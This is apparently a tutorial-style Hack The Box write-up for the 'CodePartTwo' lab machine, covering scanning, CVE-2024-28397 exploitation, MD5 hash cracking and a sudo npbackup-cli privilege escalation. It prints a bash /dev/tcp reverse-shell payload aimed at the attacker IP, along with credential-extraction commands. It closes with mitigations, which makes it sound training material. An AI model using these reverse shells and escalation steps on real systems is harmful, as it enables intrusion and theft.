






# CodePartTwo — HTB Walkthrough



**Status:** Completed  
**Difficulty:** Easy  
**OS:** Linux

## TL;DR
Discover web application with source code download, identify CVE-2024-28397 vulnerability, exploit to gain reverse shell, extract database credentials, crack hash, SSH as user, exploit sudo npbackup-cli for root flag.

## Target / Access
**Target IP:** `10.10.11.82`  
**Attacker IP:** `10.10.14.120`

---

## Enumeration

### Step 1: Port Scanning with Nmap

**What we're doing:** We start by scanning the target machine to discover what services are running and which ports are open. This is like knocking on different doors to see which ones are unlocked.

**Command:**
```bash
nmap -sC -sV -p- 10.10.11.82
```

**Command Breakdown:**
- `nmap` - The network scanning tool we're using
- `-sC` - Run default scripts to gather more information about services
- `-sV` - Detect service versions (tells us what software and version is running)
- `-p-` - Scan ALL ports (1-65535) instead of just common ones
- `10.10.11.82` - The target IP address we're scanning

**Raw Log:** [nmap.txt](raw-logs/nmap.txt)

**Output Excerpt:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1
8000/tcp open  http    Python/Flask application
```

**What we found:** 
- Port 22 is open running SSH (OpenSSH 8.9p1) - This is a secure shell service for remote access
- Port 8000 is open running a Python Flask web application - This is our main target for exploitation

**Why this matters:** The web application on port 8000 is unusual (typically web apps run on port 80 or 443), which suggests it might be a custom application that could have vulnerabilities.



### Step 2: Web Application Reconnaissance

**What we're doing:** Before we can access the web application by its hostname, we need to tell our computer that "codeparttwo.htb" should point to our target IP address.

**Command:**
```bash
echo "10.10.11.82 codeparttwo.htb" >> /etc/hosts
```

**Command Breakdown:**
- `echo "10.10.11.82 codeparttwo.htb"` - Create the text we want to add
- `>>` - Append (add to the end of the file without deleting existing content)
- `/etc/hosts` - The system file that maps hostnames to IP addresses

**After adding to hosts file, access the web application:**
```bash
# Open your web browser and navigate to:
http://codeparttwo.htb:8000
```

**What we found:** 
The web application is a custom-built platform that has a feature allowing users to download its source code. This is a goldmine for attackers because we can:
1. Review the code for vulnerabilities
2. Understand how the application works
3. Find potential security flaws before exploiting them

**Why this matters:** Having access to source code dramatically increases our chances of finding vulnerabilities. It's like having the blueprint to a building before trying to break in.


### Step 3: Directory Enumeration with Dirsearch

**What we're doing:** Directory enumeration is like trying different door handles in a building to see which rooms we can access. We're looking for hidden pages, admin panels, or forgotten files that might be useful.

**Command:**
```bash
dirsearch -u http://codeparttwo.htb:8000
```

**Command Breakdown:**
- `dirsearch` - A tool that automatically tries thousands of common directory and file names
- `-u` - Specifies the URL to scan
- `http://codeparttwo.htb:8000` - Our target web application

**What we found:**
The scan revealed several interesting endpoints:
- `/login` - A login page (expected)
- `/register` - User registration page
- `/dashboard` - Protected dashboard (requires login)
- `/download` - The source code download feature we discovered earlier

**Why this matters:** Knowing all available endpoints helps us understand the application's structure and identify potential entry points for our attack.



### Step 4: Vulnerability Scanning with Nuclei

**What we're doing:** Nuclei is an automated vulnerability scanner that checks for known security issues. Think of it as running a security checklist against the application.

**Command:**
```bash
nuclei -u http://codeparttwo.htb:8000
```

**Command Breakdown:**
- `nuclei` - A fast vulnerability scanner that uses templates to check for known issues
- `-u` - Specifies the URL to scan
- `http://codeparttwo.htb:8000` - Our target

**What we found:**
The automated scan didn't reveal any critical vulnerabilities. This is actually common - automated tools can miss vulnerabilities that require deeper analysis.

**Important lesson:** Just because automated tools don't find anything doesn't mean the application is secure. Manual code review and testing often reveal issues that scanners miss. This is why we downloaded the source code in Step 2.



### Step 5: Source Code Analysis

**What we're doing:** Now we analyze the downloaded source code to find vulnerabilities. This is manual code review - reading through the application's code to understand how it works and where it might be vulnerable.

**Steps for analysis:**
1. Download the source code from the `/download` endpoint
2. Extract and examine the file structure
3. Review key files, especially those handling user input
4. Look for known vulnerability patterns

**What we found:**
The application's structure revealed it's using specific libraries and frameworks. After examining the code and checking the dependencies, we identified that the application is vulnerable to **CVE-2024-28397** - a Remote Code Execution vulnerability.


**Understanding CVE-2024-28397:**
- **CVE** stands for Common Vulnerabilities and Exposures - a public database of security flaws
- **CVE-2024-28397** is a critical vulnerability that allows attackers to execute arbitrary code on the server
- This means we can run our own commands on the target machine

**Verification process:**
1. Research the CVE online to understand how it works
2. Check if the application version matches the vulnerable version
3. Confirm the vulnerability exists before attempting exploitation


**Why this matters:** Finding a known CVE is significant because it means there's likely public documentation and possibly even ready-made exploits we can use. This dramatically reduces the time needed to compromise the system.

---

## Foothold / Initial Access

### Step 6: CVE-2024-28397 Exploitation

**What we're doing:** Now we exploit the CVE-2024-28397 vulnerability to gain our initial access to the system. We'll set up a "reverse shell" which allows us to control the target machine from our computer.

**Understanding Reverse Shells:**
A reverse shell is when the target machine connects back to us (the attacker), giving us command-line access. It's called "reverse" because normally we connect TO a server, but here the server connects TO us.

**Step-by-step exploitation:**

**1. Set up a listener on your attacking machine:**
```bash
nc -lvnp 4444
```
**Command Breakdown:**
- `nc` - Netcat, a networking utility
- `-l` - Listen mode (wait for incoming connections)
- `-v` - Verbose mode (show us what's happening)
- `-n` - Don't resolve hostnames (faster)
- `-p 4444` - Listen on port 4444 (you can choose any available port)

**2. Prepare and send the exploit:**
The exploit takes advantage of CVE-2024-28397 to execute our payload:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.120/4444 0>&1'
```
**Payload Breakdown:**
- `bash -c` - Execute the following command in a bash shell
- `bash -i` - Start an interactive bash shell
- `>& /dev/tcp/10.10.14.120/4444` - Redirect output to our listener
- `0>&1` - Redirect input from the connection
- This creates a two-way connection between the target and our machine

**Raw Log:** [exploit-output.txt](instruction.txt) (Step 5)

**What happened:**
After sending the exploit, our netcat listener received a connection! We now have shell access to the target machine as the web application user.


### Step 7: Database Credential Extraction

**What we're doing:** Now that we have access to the system, we need to find credentials that will let us access other accounts. We'll look for database files that might contain user information.

**Step 1: Stabilize the shell**
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
**Why stabilize?** The initial reverse shell is "dumb" - it doesn't handle special characters well, can't use arrow keys, and might break easily. Spawning a proper PTY (pseudo-terminal) makes it behave like a normal terminal.

**Step 2: Search for database files**
```bash
# Look for database files
find / -name "*.db" 2>/dev/null
find / -name "users.db" 2>/dev/null
```
**Command Breakdown:**
- `find /` - Search starting from root directory
- `-name "*.db"` - Look for files ending in .db
- `2>/dev/null` - Hide error messages (like "Permission denied")

**Step 3: Examine the database**
```bash
# Read the users database
cat /path/to/users.db
# or use sqlite3 if available:
sqlite3 /path/to/users.db "SELECT * FROM users;"
```

**What we found:**
The application stores user credentials in a database file. We discovered user `marco` with a password hash: `649c9d65a206a75f5abe509fe128bce5`

**Understanding password hashes:**
- Applications don't store passwords in plain text (that would be insecure)
- Instead, they store "hashes" - one-way mathematical transformations of passwords
- To use this hash, we need to "crack" it - try to find what password creates this hash
- This hash appears to be MD5 format (32 hexadecimal characters)



### Step 8: Password Cracking

**What we're doing:** We'll use hashcat, a powerful password cracking tool, to find what password creates the hash we discovered. This works by trying millions of passwords from a wordlist and comparing their hashes.

**Preparation:**
```bash
# Save the hash to a file
echo "649c9d65a206a75f5abe509fe128bce5" > hash.txt
```

**Command:**
```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Command Breakdown:**
- `hashcat` - The password cracking tool
- `-m 0` - Mode 0 means MD5 hash type
- `hash.txt` - File containing the hash we want to crack
- `/usr/share/wordlists/rockyou.txt` - A famous wordlist containing millions of commonly used passwords

**How it works:**
1. Hashcat reads a password from the wordlist (e.g., "password123")
2. It creates an MD5 hash of that password
3. It compares the result to our target hash
4. If they match, we found the password!
5. If not, try the next password in the list

**The wordlist:** rockyou.txt contains over 14 million passwords leaked from real data breaches. It's commonly used because many people reuse passwords.

**Result:** 
After running for a few seconds, hashcat found a match!
Password: `iambatman`

**What this means:** The user `marco` is using "iambatman" as their password - a weak password that was easily cracked because it's a common phrase.


### Step 9: SSH Access and User Flag

**Command:**
```bash
ssh marco@10.10.11.82
cat ~/user.txt
```

**Output:** User flag captured.


---

## Privilege Escalation

### Step 10: Sudo Privilege Enumeration

**Command:**
```bash
sudo -l
```

**Output:**
```
User marco may run the following commands:
    (root) NOPASSWD: /usr/local/bin/npbackup-cli
```

**Analysis:** Can run npbackup-cli as root without password.

### Step 11: NPBackup Configuration Exploitation

**Commands:**
```bash
# Copy existing config file
cp /path/to/config.conf ./test.conf

# Modify configuration to backup /root directory
nano ./test.conf

# Create backup
sudo /usr/local/bin/npbackup-cli -c ./test.conf -b

# List snapshots
sudo /usr/local/bin/npbackup-cli -c ./test.conf --snapshots
```

**Analysis:** Created backup of root directory using modified config.



### Step 12: Root Flag Extraction via Snapshot

**Commands:**
```bash
# List snapshot contents
sudo /usr/local/bin/npbackup-cli -c ./test.conf --snapshot-id <snapshot-id> --ls

# Dump root flag
sudo /usr/local/bin/npbackup-cli -c ./test.conf --snapshot-id <snapshot-id> --dump /root/root.txt
```

**Output:** Root flag successfully extracted from backup snapshot.


---

## Summary

This machine involved exploiting a known CVE, database credential extraction, and privilege escalation via backup software.

### Attack Chain
1. **Nmap Scan** — Discovered web application on port 8000
2. **Source Code Analysis** — Identified CVE-2024-28397 vulnerability
3. **RCE Exploitation** — Gained reverse shell via CVE exploit
4. **Credential Extraction** — Retrieved hash from users.db
5. **Password Cracking** — Cracked marco's password with hashcat
6. **SSH Access** — Authenticated as marco, captured user flag
7. **Privilege Escalation** — Exploited sudo npbackup-cli to backup root directory
8. **Root Flag** — Extracted root flag from backup snapshot

### Tools Used
- Nmap — Port scanning and service detection
- Dirsearch — Directory enumeration
- Nuclei — Vulnerability scanning
- Hashcat — Password cracking
- Netcat — Reverse shell listener
- npbackup-cli — Backup software exploited for privilege escalation

---

## Cleanup / Notes / References

### Mitigation Recommendations
1. **Patch Vulnerabilities:** Update application to patch CVE-2024-28397.
2. **Input Validation:** Implement strict input validation and sanitization.
3. **Database Security:** Encrypt sensitive data, use strong password hashing (bcrypt, Argon2).
4. **Sudo Restrictions:** Limit sudo privileges, avoid wildcards and unrestricted binary access.
5. **Backup Security:** Restrict backup tool access, validate configuration files.
6. **Principle of Least Privilege:** Grant minimal necessary permissions.

### References
- [CVE-2024-28397 Details](https://nvd.nist.gov/)
- [OWASP: SQL Injection Prevention](https://cheatsheetseries.owasp.org/)
- [Linux Privilege Escalation Techniques](https://book.hacktricks.xyz/)


